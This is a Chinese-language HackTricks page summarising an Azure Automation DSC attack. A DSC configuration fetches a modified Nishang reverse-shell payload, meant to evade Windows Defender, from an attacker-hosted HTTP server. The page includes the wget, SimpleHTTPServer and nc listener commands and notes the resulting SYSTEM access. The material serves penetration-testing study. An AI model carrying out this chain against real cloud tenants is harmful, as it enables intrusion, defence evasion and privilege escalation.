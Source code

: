 # Az - State Configuration RCE

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[NFT](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

**查看完整文章：[https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### 远程服务器（C2）基础设施准备和步骤摘要

#### 概述
该过程涉及设置远程服务器基础设施，用于托管一个修改过的Nishang `Invoke-PowerShellTcp.ps1`有效载荷，命名为`RevPS.ps1`，旨在绕过Windows Defender。有效载荷从IP为`40.84.7.74`的Kali Linux机器上的简单Python HTTP服务器提供。操作通过以下几个步骤执行：

#### 步骤1 — 创建文件
- **所需文件：** 需要两个PowerShell脚本：
1. `reverse_shell_config.ps1`：一个期望状态配置（DSC）文件，用于获取和执行有效载荷。可从[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1)获取。
2. `push_reverse_shell_config.ps1`：一个用于将配置发布到虚拟机的脚本，可在[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1)获取。
- **定制：** 这些文件中的变量和参数必须根据用户特定的环境进行定制，包括资源名称、文件路径和服务器/有效载荷标识符。

#### 步骤2 — 压缩配置文件
- 将`reverse_shell_config.ps1`压缩成`.zip`文件，使其准备好传输到Azure存储账户。
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### 步骤 3 — 设置存储上下文 & 上传
- 使用 Azure 的 Set-AzStorageBlobContent 命令，将压缩的配置文件上传到预定义的 Azure 存储容器 azure-pentest。
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### 步骤 4 — 准备 Kali Box
- Kali 服务器从 GitHub 仓库下载 RevPS.ps1 负载。
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- 脚本已编辑以指定目标 Windows VM 和反向 shell 的端口。

#### 步骤 5 — 发布配置文件
- 执行配置文件，导致反向 shell 脚本部署到 Windows VM 上指定的位置。

#### 步骤 6 — 托管 Payload 和设置监听器
- 启动 Python SimpleHTTPServer 来托管 Payload，并启动 Netcat 监听器以捕获传入连接。
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- 计划任务执行有效载荷，实现了SYSTEM级别的特权。

#### 结论

这个过程的成功执行为进一步行动打开了许多可能性，比如凭据转储或将攻击扩展到多个虚拟机。该指南鼓励在Azure Automation DSC领域继续学习和创造。

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
